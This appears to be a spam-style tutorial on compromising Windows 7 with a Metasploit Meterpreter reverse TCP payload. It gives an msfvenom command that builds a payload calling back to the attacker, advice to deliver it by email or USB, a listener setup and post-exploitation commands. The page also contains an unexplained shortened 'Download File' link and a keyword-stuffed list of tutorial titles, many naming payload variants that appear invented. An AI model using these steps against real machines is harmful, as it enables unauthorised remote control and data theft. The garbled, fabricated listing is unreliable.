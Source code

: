 
 
# Hacking Windows 7 Using Meterpreter Reverse TCP
 
Meterpreter is one of the most powerful features of the Metasploit Framework, a popular penetration testing tool. It allows you to remotely control the file system, network, webcam, microphone, and more of a target Windows system. In this article, we will learn how to use Meterpreter to hack a Windows 7 machine using a reverse TCP connection.
 
## What is Meterpreter?
 
Meterpreter is a payload that runs in memory on the target system and communicates with the attacker's machine over a network connection. It is composed of two parts: a stager and a stage. The stager is a small piece of code that is injected into the target system by an exploit and downloads the stage from the attacker's machine. The stage is the actual Meterpreter DLL that contains all the functionality and extensions. Meterpreter can run on different platforms and architectures, such as Windows x86, Windows x64, Linux, Android, etc.
 
**Download File ✺ [https://urluso.com/2uzjmR](https://urluso.com/2uzjmR)**


 
## What is Reverse TCP?
 
Reverse TCP is a technique that allows the target system to initiate the connection to the attacker's machine, instead of the other way around. This can help bypass firewalls and NAT devices that may block incoming connections to the target system. Reverse TCP works by setting up a listener on the attacker's machine on a specific port and waiting for the target system to connect to it. Once the connection is established, the attacker can send commands and receive responses from the target system.
 
## How to Hack Windows 7 Using Meterpreter Reverse TCP?
 
To hack a Windows 7 machine using Meterpreter reverse TCP, we need to follow these steps:
 
How to use a reverse shell in Metasploit,  windows/meterpreter/reverse\_tcp payload tutorial,  Metasploit windows/meterpreter/reverse\_http and reverse\_https,  Linux meterpreter reverse\_tcp shellcode,  When to use a reverse shell and when not to,  How to backdoor an existing service with Metasploit,  windows/meterpreter/reverse\_tcp basic commands,  How to generate windows/meterpreter/reverse\_tcp executable with msfvenom,  How to upload and download files with windows/meterpreter/reverse\_tcp,  How to use railgun, post modules and mimikatz with windows/meterpreter/reverse\_tcp,  How to perform network pivoting with windows/meterpreter/reverse\_tcp,  How to control the webcam and microphone with windows/meterpreter/reverse\_tcp,  How to sniff and keylog with windows/meterpreter/reverse\_tcp,  How to hashdump and pass the hash with windows/meterpreter/reverse\_tcp,  How to load extensions and python interpreter with windows/meterpreter/reverse\_tcp,  How to evade antivirus detection with windows/meterpreter/reverse\_tcp,  How to migrate processes with windows/meterpreter/reverse\_tcp,  How to use persistence and autorun scripts with windows/meterpreter/reverse\_tcp,  How to use port forwarding and socks proxy with windows/meterpreter/reverse\_tcp,  How to use incognito and impersonate tokens with windows/meterpreter/reverse\_tcp,  How to use privilege escalation exploits with windows/meterpreter/reverse\_tcp,  How to use resource scripts and macros with windows/meterpreter/reverse\_tcp,  How to use named pipes and bind\_named\_pipe payloads with windows/meterpreter/reverse\_tcp,  How to use reverse\_https\_proxy payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_winhttp and reverse\_winhttps payloads with windows/meterpreter/reverse\_tcp,  How to use reverse\_hop\_http payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_ord\_tcp payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_nonx\_tcp payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_ipv6\_tcp payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_https\_dns payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_http\_dns payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_named\_pipe payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_named\_pipe\_pstore payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_named\_pipe\_impersonate payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_named\_pipe\_double\_pulsar payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_named\_pipe\_double\_pulsar\_xor payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_named\_pipe\_double\_pulsar\_rc4 payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_https\_proxy\_pstore payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_https\_proxy\_winhttp payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_https\_proxy\_winhttps payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_hop\_https payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_hop\_winhttp payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_hop\_winhttps payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_ord\_http payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_ord\_https payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_nonx\_http payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_nonx\_https payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_ipv6\_http payload with windows/meterpreter/reverse\_tcp,  How to use reverse\_ipv6\_https payload with windows/meterpreter/reverse\_tcp
 
1. Find an exploit that can inject code into the target system. For example, we can use EternalBlue, which exploits a vulnerability in SMBv1 protocol on Windows 7 and earlier versions.
2. Generate a Meterpreter reverse TCP payload using msfvenom, a tool that can create executable files or shellcode for various platforms and formats. For example, we can use this command to generate an executable file for Windows x86:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST= [IP] LPORT=4444 -f exe -o /tmp/payload.exe`
where LHOST is the IP address of our machine and LPORT is the port number we want to listen on.
3. Upload the payload to the target system using any method available, such as SMB share, email attachment, USB drive, etc.
4. Execute the payload on the target system using any method available, such as double-clicking, command prompt, PowerShell, etc.
5. Set up a listener on our machine using Metasploit console (msfconsole) and wait for the target system to connect back to us. For example, we can use this command to start a listener:
`use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT 4444
exploit`
6. Once we get a Meterpreter session, we can use various commands and modules to interact with the target system. For example, we can use these commands to get basic information about the target system:
`sysinfo
getuid
getpid`

## Conclusion
 
In this article, we learned how to hack a Windows 7 machine using Meterpreter reverse TCP. We saw how Meterpreter works and how to generate and execute it on the target system. We also saw how to set up a listener on our machine and how to use some basic commands to interact with the target system. Meterpreter is a powerful tool that can help us perform various tasks on a compromised system, such as file manipulation, network pivoting, privilege escalation, keylogging, etc. However, we should also be aware of its limitations and risks, such as antivirus detection, memory forensics, network monitoring, etc.
 8cf37b1e13
 

